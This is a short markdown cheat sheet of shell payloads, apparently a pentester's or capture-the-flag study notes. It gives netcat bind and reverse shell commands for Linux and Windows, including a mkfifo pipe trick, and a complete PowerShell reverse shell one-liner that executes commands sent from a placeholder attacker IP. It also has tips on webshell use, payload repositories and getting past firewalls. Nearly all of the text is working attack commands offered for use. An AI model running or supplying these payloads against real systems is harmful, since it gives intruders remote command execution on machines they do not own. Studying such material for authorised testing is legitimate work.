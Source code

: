 ### **Summary of Commands for Common Payloads**

---

### **Netcat Bind Shells**
1. **For Linux** (requires the `-e` option in netcat):
   ```bash
   nc -lvnp <PORT> -e /bin/bash
   ```

2. **Without the `-e` Option (Linux):**
   ```bash
   mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
   ```
   - **Explanation**: Creates a named pipe (`/tmp/f`), sends listener input to the pipe, and connects the pipe output to `sh` for execution.

3. **For Windows** (requires `nc.exe` with the `-e` option):
   ```cmd
   nc -lvnp <PORT> -e cmd.exe
   ```

---

### **Netcat Reverse Shells**
1. **For Linux** (with `-e` option):
   ```bash
   nc <LOCAL-IP> <PORT> -e /bin/bash
   ```

2. **Without the `-e` Option (Linux):**
   ```bash
   mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
   ```

3. **For Windows** (requires `nc.exe` with the `-e` option):
   ```cmd
   nc <LOCAL-IP> <PORT> -e cmd.exe
   ```

---

### **Powershell Reverse Shell**
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- Replace `<IP>` and `<PORT>` with the attacker's details.
- Copy and paste into `cmd.exe` or execute via a webshell for a reverse shell.

---

### **General Tips**
- **PayloadsAllTheThings Repository**:  
   A valuable resource for a wide range of shell payloads in multiple languages.  
   Repository link: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

- **Netcat on Windows**: Use the static binary located in Kali at `/usr/share/windows-resources/binaries/nc.exe`.

- **Firewalls/NAT**: Use reverse shells in environments where outbound connections are allowed. Bind shells require open ports on the target.

- **Alternative Payloads**: If netcat is not available, consider using other tools like Socat, Metasploit (`msfvenom`), or Python-based reverse shells.
